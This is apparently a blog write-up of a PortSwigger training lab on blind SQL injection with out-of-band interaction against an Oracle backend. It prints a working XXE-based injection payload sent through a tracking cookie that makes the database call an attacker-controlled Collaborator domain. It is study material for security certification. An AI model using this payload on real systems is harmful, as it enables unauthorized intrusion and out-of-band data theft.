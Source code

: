 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-11T15:22:00Z
modDatetime: 2024-09-11T09:12:47.400Z
title: Blind SQL injection with out-of-band interaction
slug: sqli-portswigger-lab-14
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 
---
```

---
layout: post
title:  ""
date:   2024-09-26 09:39:54 +0530
categories: [BSCP, SQLi]
---

## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Solution 

The Particular lab is utilising oracle database and we can able to find this using the `sqlmap` and I don't wanna go further with it 

Going through the cheatsheet, In order to achieve the DNS lookup off particular server we are controlling.. this payload will be useful in it 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Let's send the above payload through `TrackingId` parameter inside `Cookie` and when we send the request.. As it response with status code of `200` 

![]({{ site.baseurl }}/assets/images/sqli54.png)

Checking the Burp collaborator, we have recieved few DNS pingbacks 

![]({{ site.baseurl }}/assets/images/sqli55.png)

Our endgoal is acheived and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli56.png)
